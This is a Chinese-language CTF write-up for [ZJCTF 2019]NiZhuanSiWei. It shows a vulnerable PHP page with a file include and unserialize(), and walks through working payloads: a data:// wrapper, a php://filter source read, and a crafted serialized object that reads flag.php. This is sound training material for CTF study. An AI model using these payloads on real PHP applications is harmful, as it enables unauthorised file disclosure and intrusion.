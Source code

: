 # [ZJCTF 2019]NiZhuanSiWei

## 考点

- 反序列化
- 伪协议

## 解题

题目源码

```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

file_get_contents到text的内容必须是welcome to the zjctf

 很显然是要用伪协议了
 data协议:php5.2.0起，数据流封装器开始有效，主要用于数据流的读取。如果传入的数据是PHP代码，就会执行代码

```
?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=
```

下面的 `    include($file); //useless.php ` 提示了useless这个文件

我们用伪协议读一下

```
?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=php://filter/read=convert.base64-encode/resource=useless.php
```

```php
PD9waHAgIAoKY2xhc3MgRmxhZ3sgIC8vZmxhZy5waHAgIAogICAgcHVibGljICRmaWxlOyAgCiAgICBwdWJsaWMgZnVuY3Rpb24gX190b3N0cmluZygpeyAgCiAgICAgICAgaWYoaXNzZXQoJHRoaXMtPmZpbGUpKXsgIAogICAgICAgICAgICBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCR0aGlzLT5maWxlKTsgCiAgICAgICAgICAgIGVjaG8gIjxicj4iOwogICAgICAgIHJldHVybiAoIlUgUiBTTyBDTE9TRSAhLy8vQ09NRSBPTiBQTFoiKTsKICAgICAgICB9ICAKICAgIH0gIAp9ICAKPz4gIAo

解码：
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  

```

因此我们构造一下序列化的对象

```php
class Flag{  //flag.php  
    public $file='flag.php';  
}  
$password=new Flag();
$password = serialize($password);
echo $password; 

O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

```
?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

